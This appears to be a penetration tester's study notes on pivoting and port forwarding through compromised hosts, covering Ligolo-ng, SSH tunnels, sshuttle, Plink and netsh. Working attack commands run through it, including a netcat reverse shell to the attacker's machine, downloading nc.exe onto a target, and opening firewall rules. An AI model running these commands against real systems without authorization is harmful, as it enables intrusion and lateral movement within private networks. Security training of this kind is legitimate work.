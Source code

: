 ```yaml
---
layout: blank
---
```


### Port Forwarding

**Upgrading terminal**
- Might need to run `python3 -c 'import pty; pty.spawn("/bin/sh")'` to upgrade terminal

**Port Redirection and Tunneling examples**
- Port redirection (a type of forwarding): take traffic from one socket and passing it to another
- Tunneling: Encapsulating one type of data inside another (like HTTP inside SSH)
- **How do you know when to port forward?**
	- Once inside a box, use `ip addr`, `ipconfig`, and `ip route` to find connected subnets
	- Then, use scripts like `for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done` to find open ports (a basic nmap for linux)
		- Use ``1..254|%{$ip="172.16.50.$_";$p=445;$t=New-Object Net.Sockets.TcpClient;$r=$t.BeginConnect($ip,$p,$null,$null);if($r.AsyncWaitHandle.WaitOne(1000)){try{$t.EndConnect($r);Write-Host "$ip`:$p open"}catch{}}else{Write-Host "$ip`:$p closed"};$t.Close()}`` for powershell

**Port forwarding with Linux**
- Useful in situations where we need to access an internal server through a DMZ machine we own
- One way of doing this is starting a verbose (-ddd) Socat process listening on some port and forwarding traffic to the internal IP
	- `socat -ddd TCP-LISTEN:{External_Port},fork TCP:{Internal_IP}:{Internal Port}`
- Can also use *rinetd*, netcat + FIFO named pipe, or *iptables* if we have root

### Ligolo-ng
- https://github.com/nicocha30/ligolo-ng/releases/tag/v0.6.2
- Download a proxy file for kali and an agent file for the DMZ machine
- Setup on kali (create tun interface):
	- `sudo ip tuntap add user kali mode tun ligolo`
	- `sudo ip link set ligolo up`
	- `./kali-proxy -selfcert`
		- This will return a port
- (Windows) agent:
	- `ligolo-agent.exe -connect {kali_IP}:{kali_port} -ignore-cert`
	- This program won't exit
- Join a session: `session`, then specify session number
- Adding a pivot (After grabbing network information from client and session running):
	- On kali: `sudo ip route add {ipconfig_IP}/{mask} dev ligolo`
		- Make sure the final IP portion, in front of the mask, is 0 (otherwise `ip` will get mad)
	- Within DMZ session on ligolo: `start`
- Now, we should literally have access to internal machines as though Kali was in the network
- Reverse shell from internal machine -> DMZ -> kali:
	-  `listener_add --addr 0.0.0.0:1338 --to 127.0.0.1:{kali_listening_port}`
		- This created a listener on the DMZ machine on port 1338 to forward all traffic to kali on port 4444
	- Then, we send reverse shells to port 1338 on the DMZ machine, rather than our kali IP
- File upload to internal machine:
	- `python -m http.server` on kali
	- `listener_add --addr 0.0.0.0:1339 --to 127.0.0.1:8000`
		- Forwarding all traffic that reaches DMZ on 1339 to kali on 8000
	- Now, we `iwr/wget {DMZ_IP}:1339/{file}`
	
### SSH Tunneling
- Can also be referred to as "SSH Port Forwarding"
- SSH was designed to securely transmit traffic, so it was used initially for a lot of tunneling

**SSH Local Port Forwarding**
- Done with SSH's `-L` option
	- Used to forward incoming traffic on the current machine from the machine we SSH INTO to another machine
	- `ssh -N -L 0.0.0.0:{current_machine_inbound_port}:{2nd_hop_forwarding_IP}:{forwarding_port} {username}@{intermediary_machine_IP}`
		- `0.0.0.0` just means listening on all interfaces
		- `-N` just means don't show output, so we only see forwarding-related stuff
	- Basically, we are in the network-facing machine. We want to forward traffic from one-hop to two-hops away to an arbitrary port, so we ssh from the pwned box into the one-hop box with the port-forwarding info. The info states that our port (in the example, 4455) will accept incoming connections (e.g. outside the network), send those along ssh, and then ssh on the one-hop machine will forward the traffic to the two-hop machine's port specific in the ssh-command. jeez

**SSH Dynamic Port Forwarding**
- Useful when we want to do more than a 1:1 port forward
	- This basically allows us to shift our commands one machine down
- OpenSSH uses a SOCKS proxy server port to listen, enabling this technique
- Uses the `-D` option
- Usage: `ssh -N -D 0.0.0.0:{inbound_port} {username}@{IP}`
	- This opens 9999 on the internet-facing machine that we control and tells it to accept and forward SOCKS traffic, as shown below
- Then, use *ProxyChains* to communicate over SOCKS
	- Edit `/etc/proxychains4.conf`, putting "socks5 {IP} {port} at the end"
		- This IP and port are the entrance to the internal network that we control
	- `proxychains {command} -L //{IP}/ -U {username} --password={password}`
		- `{command}` could be anything, like `smbclient` or `nmap`
		- The SOCKS traffic would be forwarded to the IP from the machine ssh'd into

**SSH Remote Port Forwarding**
- It's basically using an SSH tunnel's egress traffic to send commands through the client
- Useful when firewalls are getting in the way (e.g. can't ssh in/open new ports)
	- Thus, we set up an SSH server on OUR machine and bind the listening port to the loopback interface
		- Will need to run `sudo systemctl start ssh`
		- This does mean that we're giving the compromised machine our LITERAL credentials, so it might be good to create a new user lmfao
	- This means that packets sent are pushed through the SSH tunnel back to the compromised DMZ machine
- Uses the `-R` option, run from compromised DMZ machine
- Example: listening on 2345 on Kali and forwarding traffic to the 1-hop internal machine
	- `ssh -N -R localhost:{2345}:{internal_1hop_IP}:{internal_1hop_port} username@{kali_IP}`
- Traffic can then be sent to the machine by sending traffic to that port on localhost
	- Example: `psql -h localhost -p {2345} -U {username}`

**SSH Remote Dynamic Port Forwarding**
- Remote, and forwards traffic based on where they're addressed
- Example running on 9998:
	- `ssh -N -R 9998 kali@{kali_IP}`
	- Then, in `/etc/proxychains4.conf`:
		- `socks5 127.0.0.1 9998`
	- `proxychains {command with internal 1-hop IP as target}`
		- `proxychains nmap {internal_IP}`

**Using sshuttle**
- Basically turns SSH into a VPN
- First, port forward in traffic on the pwned machine on a certain port
	- For example, use Socat to allow inbound traffic on 2222, forward it to new machine (whose credentials we know) on port 22, since we're ssh'ing into that machine
- Then, `sshuttle -r {user}@{pwned_target_IP}:{pwned_target_port} {subnet1} {subnet2}`
	- The subnets are ones that we require access to from the pwned machine
- Then, we can just make requests to hosts in the subnet
	- For example, `nmap {private_IP}`

### Port Forwarding with Windows Tools

**Using SSH on Windows**
- Pretty much the same, as it's OpenSSH - comes bundled with Windows after 2018
- Remote Dynamic port forward:
	- Same as linux `ssh -N -R {kali_port} kali@{kali_IP}`
	- Modify kali `/etc/proxychains4.conf` to have `socks5 127.0.0.1 {kali_ssh_port}`
	- Then, same as before, use `proxychains` with commands and internal IPs passed

**Plink**
- OpenSSH might not be on Windows, so Plink might be used instead
- This is used for bypassing a firewall INTO the DMZ machine (going from shell to RDP even with RDP port blocked)
- Need netcat on the target, located in /windows-resources/binaries/nc.exe
	- Grab it with `powershell wget -uri {uri}/nc.exe -OutFile {desired_outfile.exe}`
	- Run a shell with `nc.exe -e cmd.exe {kali_IP} {port}`
- Download plink.exe using same command as above ^^
- `plink.exe -ssh -l kali -pw {pass} -R 127.0.0.1:{kali_port}:127.0.0.1:{port_we_want_to_open_on_DMZ} {kali_ip}`
	- This is basically just ssh'ing into kali to open up a port on the DMZ machine
- Then, for example, `xfreerdp /u:{username} /p:{password} /v:127.0.0.1:{kali_port}`, as the box has SSH'd into kali and is running on kali port, so we can rdp into that

**Netsh**
- Built-in to the firewall, thus should require Administrator
- Assume RDP is open, and we want to go to 1hop internal machine via SSH
- 1st, rdp using `xfreerdp`
- Then, `netsh interface portproxy add v4tov4 listenport={open_port} listenaddress={current_machine_IP_from_kali} connectport={port_of_1hop_machine} connectaddress={1hop_internal_IP}`
	- Need to open {open_port} on the firewall - `netsh advfirewall firewall`
		- `netsh advfirewall firewall add rule name="{any_name}" protocol=TCP dir=in localip={kali_ip} localport={open_port} action=allow`
		- To delete the rule, `netsh advfirewall firewall delete rule "{rule_name}"`
- To delete the port forward, run `netsh interface portproxy del v4tov listenport={open_port} listenaddress={kali_IP}`
- Can verify what is running with `netstat -anp TCP` or `netsh interface portproxy show all`